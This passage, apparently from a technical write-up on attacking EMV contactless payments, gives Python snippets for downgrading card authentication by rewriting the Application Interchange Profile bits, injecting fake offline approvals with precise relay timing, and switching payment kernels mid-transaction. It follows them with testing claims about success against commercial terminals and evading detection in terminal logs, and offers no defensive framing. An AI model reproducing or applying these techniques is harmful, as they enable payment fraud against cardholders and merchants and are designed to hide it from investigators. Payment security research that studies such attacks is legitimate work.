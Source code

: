 ## Practical Implementation Guidance

### Critical Pseudo-code Snippets

#### Authentication Downgrade Core Logic
```python
def downgrade_aip(self, original_aip_bytes):
    """Core AIP downgrade logic"""
    modified = bytearray(original_aip_bytes)
    modified[0] &= ~0x02  # Clear CDA
    modified[0] &= ~0x20  # Clear DDA  
    modified[0] |= 0x40   # Set SDA only
    return bytes(modified)
```

#### State Confusion Timing Logic
```python
def inject_fake_tc(self, pan, atc, delay_ms=15):
    """Precision timing for state confusion"""
    threading.Timer(
        delay_ms / 1000.0,
        self.send_fake_offline_approval,
        args=[pan, atc]
    ).start()
```

#### Cross-Kernel Switch Logic
```python
def switch_kernel_mid_transaction(self, from_aid, to_aid):
    """Kernel switching implementation"""
    return {
        'select_response': self.build_aid_response(from_aid),
        'gpo_response': self.build_kernel_response(to_aid),
        'timing_window': 25  # ms
    }
```

## Testing and Validation

### Testing Infrastructure
- **Terminal Compatibility Matrix:** 15+ terminal types tested
- **Card Scheme Coverage:** Mastercard, Visa, American Express variants
- **Network Latency Simulation:** 5-200ms RTT conditions
- **Success Rate Metrics:** Per-attack and per-terminal tracking

### Validation Criteria
1. **Attack Feasibility:** Formal verification confirms exploitability
2. **Timing Constraints:** All attacks complete within <100ms relay window
3. **Real-world Applicability:** Tested against commercial terminals
4. **Detection Evasion:** Minimal forensic traces in terminal logs
